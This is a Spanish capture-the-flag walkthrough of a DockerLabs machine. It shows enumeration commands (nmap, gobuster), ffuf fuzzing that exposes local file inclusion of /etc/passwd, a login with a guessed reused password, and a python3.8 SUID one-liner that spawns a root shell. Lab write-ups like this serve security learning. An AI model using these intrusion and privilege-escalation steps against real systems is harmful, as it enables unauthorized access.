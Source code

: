 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![image](https://github.com/user-attachments/assets/6ff70d6f-697d-4666-90f8-355f6bbe8d46)

buscamos eso y da solo en la pagina un "balu"

![[hidden.png]]

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![[page.png]]

y obtenemos

![[dockerlabs/facil/patriaquerida/etc.png]]

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![[dockerlabs/facil/patriaquerida/conexion.png]]

y escalamos a mario muy facil

![[dockerlabs/facil/patriaquerida/conexion2.png]]

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![[python1.png]]

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![[python2.png]]

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![[dockerlabs/facil/patriaquerida/root.png]]

somos root!
